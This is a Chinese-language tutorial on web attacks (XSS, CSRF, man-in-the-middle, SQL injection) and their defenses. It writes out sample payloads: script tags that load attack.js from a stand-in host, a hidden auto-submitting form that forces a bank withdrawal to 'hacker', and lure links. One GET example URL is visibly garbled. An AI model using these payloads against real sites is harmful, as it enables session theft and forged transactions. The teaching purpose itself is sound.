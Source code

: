 # 概览

- **XSS**：XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
- **CSRF**: CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
- **中间人攻击**：是指攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改。
- **SQL注入**：SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。


# XSS
>  Cross Site Scripting（跨站脚本攻击） 是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式，又叫跨域脚本。常见类型有：反射型（非持久性）存储型（持久性）DOM 型

同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信。

支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。



### 类型
#### 反射型（非持久性）  
原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：  
**通过 URL 插入恶意代码。**  
**有服务端参与。**   
**需要用户访问特定链接。**  

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的Cookie 等）。

#### 存储型（持久性）  
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：  
**恶意代码存储在目标网站服务器上。**  
**有服务端参与。**   
**只要用户访问被注入恶意脚本的页面时，就会被攻击。** 

例子：  
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM 型  
原理：  
攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。  

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

要点：  
在客户端发生。

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

#### 总结
存储型 XSS： 持久化，代码是存储在服务器中的

反射型 XSS： 非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面

基于 DOM 的 XSS： 不经过后端，纯粹发生在客户端的攻击，属于前端 JavaScript 自身的安全漏洞

### 防范 XSS  
- 对于外部传入的内容进行充分转义。**过滤特殊字符，或对特定字符进行编译转码**  
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。**对重要的 cookie 设置 httpOnly**
  - HttpOnly 最早由微软提出，至今已经成为一个标准。
  - 通过对重要的 Cookie 设置 httpOnly ，防止客户端通过 document.cookie 读取 cookie ，也就是说，JavaScript 读取不到此条 Cookie ，也就无法提交给恶意服务器了
  - 注意：此 HTTP 头由服务端设置
- **URLEncode 操作**
  - 将不可信的值输出 URL参数之前，进行 URLEncode操作。对于从 URL 参数中获取值一定要进行格式检测（比如你需要的时URL，就判读是否满足URL格式）
- Web 安全头支持
浏览器自带的防御能力，一般是通过开启 Web 安全头生效的。具体有以下几个：

  - **CSP** ：W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。
  - **X-Download-Options**: noopen ：默认开启，禁用 IE 下下载框 Open 按钮，防止 IE 下下载文件默认被打开 XSS。
  - **X-Content-Type-Options: nosniff** ：禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 server 的内容未必可信的时候。
  - **X-XSS-Protection** ：IE 提供的一些 XSS 检测与防范，默认开启


# Cross-site request forgery(CSRF)

### 案例
一个真实的案例：用户 David 在自己邮箱内点击了黑客恶意伪装的链接。黑客在点击的链接里冒充用户(cookie)向 Gmail 服务器发送邮件自动转发请求，导致 David 的邮件都被自动转发到了黑客的邮箱，从而被黑客利用盗取了用户数据。

### 原理
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 要点：
- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

### CSRF 常见的攻击方式与防护策略
常见的攻击方式：  
* 自动发起 GET 请求的 CSRF
* 自动发起 POST 请求的 CSRF
* 引诱用户点击链接的 CSRF

1. 自动发起 Get 请求  
GET类型的CSRF利用非常简单，只需要一个HTTP请求，一般会这样利用：
```
 ![](https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker)
```
在受害者访问含有这个img的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次HTTP请求。bank.example就会收到包含受害者登录信息的一次跨域请求。

2. 自动发起 POST 请求  
这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```html
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。  
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

3. 引诱用户点击链接  
链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
```html
  <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
  <a/>
```
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。


CSRF 攻击的两个必要条件：  

**1. 目标站点一定要有 CSRF 漏洞；**  
**2. 诱导用户从目标网站，打开一个第三方站点。**

CSRF通常从第三方网站发起，被攻击的网站无法防止攻击发生，只能通过增强自己网站针对CSRF的防护能力来提升安全性。

上文中讲了CSRF的两个特点：

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。
针对这两点，我们可以专门制定防护策略，如下：

* 阻止不明外域的访问
  * 同源检测
  * Samesite Cookie
* 提交时要求附加本域才能获取的信息
  * CSRF Token
  * 双重Cookie验证
### 防范：

1. 使用 **CSRF Token** 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
2. **双重 Cookie 验证**
原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
优点：无需使用 Session，不会给服务器压力。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。(**SameSite Cookie**)
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
**设置为 Lax 或者 Strict，禁止发送第三方 Cookie。**
5. 设置白名单，仅允许安全域名请求
6. 增加验证码验证

# 中间人攻击（MITM）
> 中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

### 中间人攻击防范  
* 对于开发者来说：
  * 支持 HTTPS。
  * 开启 HSTS 策略。
* 对于用户来说：
  * 尽可能使用 HTTPS 链接。
  * 避免连接不知名的 WiFi 热点。
  * 不忽略不安全的浏览器通知。
  * 公共网络不进行涉及敏感信息的交互。
  * 用可信的第三方 CA 厂商，不下载来源不明的证书。

# SQL注入
### 案例
一般我们提交的表单数据（未经过滤的情况下）都会拼接到 SQL 查询语句中的，就例如：
```sql
SELECT * FROM users WHERE name='aaa'
```
其中 name 的参数就是从表单中传过来的数据，如果传的参数是一条 SQL 语句，那么就可能骗过了 SQL 数据库，从而执行了一段恶意的代码，达到了攻击效果。

### 防范
* 把应用服务器的数据库权限降至最低，尽可能地减少 SQL 注入攻击带来的危害。

* 避免网站打印出SQL错误信息，比如类型错误、字段不匹配等，把代码里的SQL语句暴露出来，以防止攻击者利用这些错误信息进行SQL注入。

* 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。

* 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。

* 在测试阶段，建议使用专门的 SQL 注入检测工具进行检测。网上有很多这方面的开源工具，例如sqlmap、SQLninja等。

* 善用数据库操作库，有些库包可能已经做好了相关的防护，只需阅读其文档，看是否支持相应的功能即可。
